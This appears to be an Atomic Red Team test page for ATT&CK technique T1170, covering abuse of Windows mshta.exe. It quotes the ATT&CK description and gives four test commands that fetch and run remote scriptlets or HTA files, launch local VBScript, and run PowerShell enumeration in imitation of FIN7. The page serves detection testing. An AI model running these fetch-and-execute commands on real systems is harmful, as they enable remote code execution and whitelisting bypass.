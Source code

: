 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe
Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Create a local VBScript file | path | C:\Temp\mshta_notepad.vbs|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""{local_file_path}"")(window.close)")
```






<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/T1170.hta|


#### Attack Commands: Run with `command_prompt`! 
```
mshta #{hta_url}
```






<br/>
